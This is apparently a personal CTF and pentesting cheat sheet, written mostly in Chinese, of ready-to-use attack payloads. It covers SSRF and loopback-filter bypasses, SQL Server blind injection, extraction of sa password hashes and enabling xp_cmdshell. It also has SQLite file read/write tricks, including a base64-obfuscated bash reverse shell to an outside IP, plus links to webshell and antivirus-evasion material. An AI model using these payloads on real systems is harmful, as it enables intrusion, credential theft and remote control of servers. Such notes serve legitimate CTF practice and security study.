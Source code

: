 
# Web

## RCE 命令绕过

包含 www.baidu.com 通过 http://user:pass@host 格式绕过16进制/8进制

`www.baidu.com@127.0.0.2`

绕过 127.0.0.1 , 2-127都可以, 8进制
```txt
127.0.0.2
...
127.0.0.127

curl 127.0.0.0x02
ping 0x7F.0x00.0x00.0x01
ping 0x7F000001
ping 0177.0000.0000.0001
```
### bypass
[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)

## SSRF

1. 不存在路径绕过

`url=/http/../flag`

2. 通过127.0.0.2 ... 127


## curl 使用
curl -i -L
```txt
-i, --include       Incluude protocol response headers in the output
-L, --location      Follow redirects
```


# SQL 注入

## SQL Server
https://www.w3schools.com/sql/sql_ref_sqlserver.asp

```sql
-- db name
Select Name From Master..SysDataBases Where DbId=(Select Dbid From Master..SysProcesses Where Spid = @@spid)
-- stack query
-- if else
SELECT IIF(500<1000, 'YES', 'NO');
if (1=1) waitfor delay '00:00:1' else select 2
-- blind
?id=1' waitfor delay '00:00:2'--'

-- current-user
select CURRENT_USER;
select SYSTEM_USER;
select USER_NAME();

-- functions
ascii,char,charindex,concat,concat with +,concat_ws,datalength,difference,format,left,len,lower,ltrim,nchar,patindex,quotename,replace,replicate,reverse,right,rtrim,soundex,space,str,stuff,substring,translate,trim,unicode,upper
select case when 1=1 then 0 else 2 end  -- if else 
if (1<0) Begin select 'true' End Else Begin select 'false' End -- if else 2

-- sa passwords
select *  FROM master.sys.sql_logins
select *  FROM [master].[sys].[sql_logins]
SELECT name, CAST(CONVERT(varchar(max), password_hash, 1) AS varchar)  FROM master.sys.sql_logins -- 0x0102  https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-ver16
SELECT name, CAST(CONVERT(varchar(max), password_hash, 2) AS varchar)  FROM master.sys.sql_logins -- 0102

select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 1, 1))=48  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为0
select case when  ascii(SUBSTRING(CAST(CONVERT(varchar(max), password_hash, 2) AS varchar), 2, 1))=49  then 1 else 2 end FROM master.sys.sql_logins -- 判断第二位是否为1


SELECT HOST_NAME()  -- 主机名
SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser -- SUSER_NAME sa
-- 在master - 视图里
```

启动 xp_cmdshell
```
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
```
## sqlite

```sql
sqlite3.exe db.sqlite3 -cmd SELECT(name)FROM(sqlite_master)
# 查表名
SELECT name FROM sqlite_master WHERE type='table';
SELECT CHAR(97);  -- 'a'
SELECT HEX('a');  -- 61

-- 2022第五空间 5_Misc_m@sTeR_0f
SELECT writefile('/home/ctf/'||CHAR(46)||'sqliterc',"select readfile('/flag'||CHAR(46)||'txt')")
select sqlite_version()

select readfile('/etc/passwd')
select writefile('/home/ctf/'||(SELECT substr(sqlite_version(),2,1))||'sqliterc',
(SELECT substr(sqlite_version(),2,1)||'shell echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuMjYuNTkuMTM3Lzg4ODggMD4mMQo=|base64 -d|bash'))
```
# Python

```
{0.__class__.__init__.__globals__}
```
# Javascript

弱类型
```ts
[]  ==  0   // true
[]  ==  ''  // true
[2] ==  2   // true
[0] ==  0   // true
[0] == "0"  // true
[0] ==="0"  // false
"0" !== [0] // true
123+"hello"    // '123hello'
[123]+"hello"  // '123hello'
"123"+"hello"  // '123hello'
```


# Article

[无字母数字RCE初探](http://www.m0x01sery.com/2022/03/28/rce-without-w-and-n/) 
[【安全练兵场】| BurpSuite靶场系列之SQL注入](https://mp.weixin.qq.com/s/RqB-vMifxn0-4hrn0OEoHQ)
[【安全练兵场】| BurpSuite靶场系列之身份验证](https://mp.weixin.qq.com/s/wDWcdTdFRkI8cMK1_pv94w)
## rce
[无字母数字Webshell&&冰蝎Webshell](https://mp.weixin.qq.com/s/1PX7_nU7bmqOs3lGb8O8gw)

## SRC
[Java代码分析工具Tabby在CTF中的运用](https://mp.weixin.qq.com/s/u7RuSmBHy76R7_PqL8WJww)
[挖洞思路：前端源码泄露漏洞并用source map文件还原](https://blog.csdn.net/qq_44930903/article/details/124257571)
## 工具/马
[java 内存马](https://github.com/su18/ysoserial)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[渗透干货｜史上最全一句话木马](https://mp.weixin.qq.com/s/o_HUnlubJdPRdQdpnMJeEw)

## 免杀
[免杀学习——PHP免杀](https://blog.csdn.net/ZxC789456302/article/details/127473366): 白白白无-免杀学习——PHP免杀----🔥 热度:9113 
[jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/Runtime-reflect-cmd.jsp)

## SQLi
[2022 年最佳 SQL 注入检测工具【文末抽书】](https://mp.weixin.qq.com/s/2clT1zX9s8RXpMPsRK5zyg)
[nosql注入用户名密码爆破工具](https://0xmrm.com/272.html)
## ssti 
https://blog.csdn.net/miuzzx/article/details/127744431#t4
[CTF中SSTI漏洞的简单利用](https://mp.weixin.qq.com/s/pA-ca-b0IYszwjmkCIdYBg)